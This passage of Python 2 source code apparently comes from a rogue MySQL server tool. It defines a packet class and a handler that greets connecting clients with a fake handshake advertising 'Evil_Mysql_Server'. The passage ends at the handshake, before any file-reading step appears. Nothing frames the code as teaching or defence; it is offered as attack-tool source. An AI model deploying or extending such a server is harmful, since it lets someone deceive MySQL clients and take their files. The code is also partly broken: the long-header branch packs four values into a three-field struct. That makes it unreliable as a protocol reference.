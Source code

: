 ```

class mysql_packet(object):
    packet_header = struct.Struct('<Hbb')
    packet_header_long = struct.Struct('<Hbbb')
    def __init__(self, packet_type, payload):
        if isinstance(packet_type, mysql_packet):
            self.packet_num = packet_type.packet_num + 1
        else:
            self.packet_num = packet_type
        self.payload = payload

    def __str__(self):
        payload_len = len(self.payload)
        if payload_len < 65536:
            header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
        else:
            header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)

        result = "{0}{1}".format(
            header,
            self.payload
        )
        return result

    def __repr__(self):
        return repr(str(self))

    @staticmethod
    def parse(raw_data):
        packet_num = ord(raw_data[0])
        payload = raw_data[1:]

        return mysql_packet(packet_num, payload)

class http_request_handler(asynchat.async_chat):

    def __init__(self, addr):
        asynchat.async_chat.__init__(self, sock=addr[0])
        self.addr = addr[1]
        self.ibuffer = []
        self.set_terminator(3)
        self.state = 'LEN'
        self.sub_state = 'Auth'
        self.logined = False
        self.push(
            mysql_packet(
                0,
                "".join((
                    '\x0a',  # Protocol
                    '3.0.0-Evil_Mysql_Server' + '\0',  # Version
                    #'5.1.66-0+squeeze1' + '\0',
                    '\x36\x00\x00\x00',  # Thread ID
                    'evilsalt' + '\0',  # Salt
                    '\xdf\xf7',  # Capabilities
                    '\x08',  # Collation
                    '\x02\x00',  # Server Status
                    '\0' * 13,  # Unknown
                    'evil2222' + '\0',
                ))
            )
        )

```